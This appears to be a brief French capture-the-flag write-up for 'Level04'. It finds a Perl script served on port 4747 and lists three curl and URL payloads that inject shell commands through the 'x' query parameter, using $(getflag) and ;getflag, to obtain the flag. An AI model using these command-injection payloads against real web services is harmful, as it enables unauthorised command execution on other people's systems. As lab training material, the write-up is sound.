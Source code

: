 # Level04

---

- On trouve un fichier "level04.pl" qui est un fichier ecrit en perl et qui vas necessiter un acces via resaux.

- On trouve effectivement la ligne "localhost:4747".

- On peut lancer l'url suivant pour obtenir le flag:
>	- <Target_IP>:4747/?x=$(getflag)
>	- curl 127.0.0.1:4747?x=%2F%3Fx%3D%24%28getflag%29
>	- curl 127.0.0.1:4747?x=%3Bgetflag

